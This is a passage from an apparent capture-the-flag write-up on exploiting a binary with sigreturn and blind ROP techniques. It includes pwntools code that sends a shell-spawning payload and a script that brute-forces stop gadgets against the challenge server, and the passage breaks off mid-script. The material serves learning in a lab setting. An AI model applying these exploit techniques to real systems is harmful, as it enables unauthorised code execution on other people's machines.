 ```
payload += bytes(frame)

target.sendline(payload)

target.interactive()
```
And the results simply ended in a crash. Without more information, it was very difficult to determine where I was going wrong. As a result, I opted for what some might call overkill and decided to implement some more fully black-box ROP strategies in order to eventually leak portions of the binary and figure out what is going on.

## Black Box ROP Strategies:

### Finding a Stop Gadget:

So, inspired by the Hacking Blind paper, I set up a script to scan for gadgets. I used the address leaks to determine a base for my scans on each attempt by nulling out the final three nibbles, and worked on finding some sort of a "stop gadget", which is basically any address that you can place in your ROPchain to determine that all of the previous gadgets in the chain returned out correctly. In this context, some sort of print is the cleanest option. Here is the brute forcing script:
```
from pwn import *

for i in range(0, 0x1000): #(82, 0x600):
    target = remote('0.cloud.chals.io', 21978)

    context.arch = "amd64"

    print(target.recvuntil(b'Push your way to /bin/sh at :'))

    leak = (target.recvline())
    print(leak)
    binsh = int(leak, 16)
    print('binsh is at', hex(binsh))

    payload = b'Y' 
    target.send(payload)


    print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
    target.sendline(b'Y')

    print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
    target.sendline(b'Y')
    print(target.recvuntil(b'~ push 0x58585858; ret |'))
    leak = (target.recvline())
    print(leak)

    pop_rax = int(leak, 16) + 4

    print('pop rax ret at ', hex(pop_rax))

    print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
    target.sendline(b'Y')
    print(target.recvuntil(b'~ push 0x0f050f05; ret |'))
    leak = (target.recvline())
    print(leak)
    syscall = int(leak, 16) + 2

    print('syscall at', hex(syscall))

    padding = b'a' * 16 
    test_address = pop_rax - 0x1c4 + i
```